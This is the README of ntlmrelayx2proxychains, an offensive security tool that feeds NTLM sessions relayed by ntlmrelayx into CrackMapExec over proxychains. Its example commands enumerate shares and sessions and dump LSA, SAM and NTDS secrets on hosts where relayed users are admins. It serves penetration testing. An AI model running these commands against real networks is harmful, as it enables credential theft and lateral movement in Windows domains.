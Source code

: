 # ntlmrelayx2proxychains

## Introduction
[ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains) aims to connect the tool of the [SecureAuthCorps'](https://github.com/SecureAuthCorp) [impacket](https://github.com/SecureAuthCorp/impacket) suite, ntlmrelayx.py (hereafter referred to as "ntlmrelayx"), along with @[byt3bl33d3r](https://github.com/byt3bl33d3r)'s tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (hereafter referred to as "CME"), over [proxychains](https://github.com/haad/proxychains), developped by [haad](https://github.com/haad).

Currently, when having active relays via ntlmrelayx.py, you need to manually provide user, domain, and ip address in CME over proxychains. The idea behind this tool is to automate this process. 

So have you ever felt too lazy to **explore all shares, loggedin users, sessions, disks, and/or password policy** manually after using ntlmrelayx **or** felt too lazy to **dump the lsa, sam, and/or ntds** on all systems where you found a local administrator? If so, you'll for sure enjoy [ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains)! :) 

##  Help!

  This tools' help-page can be consulted via CLI using the `-h` or the `--help`parameter.

    $python3 ntlmrelay2proxychains.py --help
        Usage:
                $python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
        
        
        Required argument:
                -a, --action            possible actions {shares|lsa|sam|ntds|sessions|disks|loggedon-users|pass-pol|???}
        
        
        Optional arguments:
                -h, --help              shows this help message and exits
                -e, --exclude           exludes ips listed in the file checked_ips.txt
                -A, --adminonly         only executes the command if the user is local admin on the IP
        
        
        Credits:
                This tool was made by @BugZ_GENK
        
        
        Disclaimer:
                Use with care, on your own risk! (and other legal blabla indicating you are NOT using this tool on my responsibility/accountability :))

## Requirements
This tool requires you to have **proxychains configured, Python3 and CME installed, and ntlmrelayx running using socks mode**.

## Required argument
As can be read above, the `-a` or `--action` parameter is **required**. Using this parameter you specify what comes at the end of your command in CME. 

**Example:**
When using ntlmrelayx2proxychains in the following way 

    $ python3 ntlmrelayx2proxychains -a shares
    
   The following command is executed in the background:

    $ proxychains crackmapexec smb -u "victim" -p "" -d "contoso" 10.10.10.10 --shares

## Optional arguments
### Exclude IPs
Starting of with the explanation of the parameter `--exclude` (or the short version `-e`).

This parameter expects no further input via CLI, but checks the file `checked_ips.txt` (created on the first run of this tool). In this file you can specify IPs you want `ntlmrelayx2proxychains.py` to skip.

This can be useful when, ***e.g.*** , exploring shares. During your security assessment, you find a share where you have full read/write access. You fully crawl through this share, but can't find anything interesting. At this point, you are given the option to exclude this endpoint so it does not keep showing up over an over again, while you have already thoroughly investigated these shares. 

**Example:**

Example of `checked_ips.txt`:

    $cat checked_ips.txt
    10.10.10.10
    127.0.0.10
    192.168.0.10

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a shares -e
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: True
    -> Excluded IPs: 10.10.10.10, 127.0.0.10, 192.168.0.10
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
Note, `Actively excluding IPs:` is set to `True` and `--> Excluded IPs: [SNIP]` sums up all IPs that are excluded.

### Adminonly
The next built-in parameter ntlmrelayx2proxychains supports is the parameter `--adminonly` (or the short version `-A`).

This parameter expects no further input at all. It just checks the ntlmrelayx API where it found relays for users that are local administrator on that particular endpoint.

This can be useful when, ***e.g.*** , dumping LSA secrets from target systems, as this operation can only be performed by users have local admin rights.

**Example:**

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a lsa -A
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]

## Example run

   

    $ python3 ntlmrelay2proxychains.py -a shares
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    
    [*] Grepping your current relays......
    [*] Beautifying the json file......
    
    [*] Setting domain......
    [OK] Domain is: DUM
    
    [*] Ready, set, GO!
    proxychains crackmapexec smb -u "SRV-0001$" -p "" -d CONTOSO 10.10.10.5 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]
    
    proxychains crackmapexec smb -u "VICTIM" -p "" -d CONTOSO 10.10.10.10 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]

